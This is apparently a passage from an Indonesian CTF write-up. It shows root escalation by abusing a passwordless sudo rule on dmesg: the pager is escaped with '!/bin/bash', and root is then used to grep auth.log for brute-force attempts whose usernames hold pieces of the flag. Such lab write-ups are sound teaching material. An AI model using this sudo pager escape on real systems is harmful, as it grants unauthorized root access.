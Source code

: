 Di situ terdapat sebuah sudoers no passwd ke sebuah utility `dmesg` yang mana dapat kita abuse menjadi root dengan cara.

```sh
$ sudo /bin/dmesg -H
!/bin/bash
```

Tara dengan begitu akan menjadi user `root`

```sh
root@kkst2020:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Setelah menjadi `root` kita akan membaca `/var/log/auth.log` yang mana jika serangannya adalah brute force, maka kita dapat melakukan filter.

1. Mencari user failed
2. Mencari password failer



```sh
root@kkst2020:~# grep 'Failed password' /var/log/auth.log -a
Nov  9 02:48:12 kkst2020 sshd[1207]: Failed password for invalid user K from 192.168.77.87 port 65141 ssh2
Nov  9 02:48:23 kkst2020 sshd[1217]: Failed password for invalid user K from 192.168.77.87 port 65142 ssh2
Nov  9 02:48:34 kkst2020 sshd[1219]: Failed password for invalid user S from 192.168.77.87 port 65143 ssh2
Nov  9 02:48:39 kkst2020 sshd[1221]: Failed password for invalid user T from 192.168.77.87 port 65144 ssh2
Nov  9 02:51:21 kkst2020 sshd[1227]: Failed password for invalid user 2020 from 192.168.77.87 port 65149 ssh2
Nov  9 02:51:23 kkst2020 sshd[1227]: Failed password for invalid user 2020 from 192.168.77.87 port 65149 ssh2
Nov  9 03:02:00 kkst2020 sshd[1255]: Failed password for invalid user L00K from 192.168.77.87 port 65156 ssh2
Nov  9 03:02:07 kkst2020 sshd[1258]: Failed password for invalid user L00K from 192.168.77.87 port 65158 ssh2
Nov  9 03:02:58 kkst2020 sshd[1261]: Failed password for invalid user _H3rS from 192.168.77.87 port 65159 ssh2
Nov  9 03:03:40 kkst2020 sshd[1264]: Failed password for invalid user _ from 192.168.77.87 port 65162 ssh2
Nov  9 03:16:09 kkst2020 sshd[1334]: Failed password for invalid user Ch3ck from 192.168.77.87 port 65174 ssh2
Nov  9 03:16:12 kkst2020 sshd[1334]: Failed password for invalid user Ch3ck from 192.168.77.87 port 65174 ssh2
Nov  9 03:16:23 kkst2020 sshd[1338]: Failed password for invalid user Ch3ck} from 192.168.77.87 port 65175 ssh2
Nov  9 03:16:31 kkst2020 sshd[1341]: Failed password for invalid user Ch3ck} from 192.168.77.87 port 65177 ssh2
```

Seperti yang terlihat sudah ada potongan Flagnya.
